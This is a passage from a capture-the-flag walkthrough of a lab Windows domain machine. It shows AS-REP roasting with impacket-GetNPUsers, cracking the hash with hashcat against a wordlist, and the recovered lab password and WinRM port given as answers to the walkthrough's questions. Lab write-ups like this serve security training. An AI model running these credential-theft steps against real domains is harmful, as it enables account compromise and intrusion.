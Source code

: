 
Now, running the `GetNPUsers` script:

```bash
$ impacket-GetNPUsers egotistical-bank.local/ -outputfile npusers.txt -format hashcat -usersfile userlist.txt -dc-ip "10.129.95.180"
```
![alt text](image-3.png)


**R2: FSmith**

### Q3: What is the hash format returned from this AS-REP Roasting attack? Given the answer as the string between the first and third $ characters, including the $.

**R3: \$krb5asrep\$23\$**

### Q4: What is the password of the user fsmith?

Now we can attempt cracking that hash. I did it with hashcat.

```bash
$ hashcat -a 0 npusers.txt /usr/share/wordlists/rockyou.txt
```
![alt text](image-4.png)

**R4: Thestrokes23**

### Q5: Now that you have a valid set of credentials, on what port can you connect to the machine and get an interactive shell?

As we saw on the nmap output, port `5985` is open, which is the default port for WinRM, we learned in Forest that it is a protocol for remote access on windows.
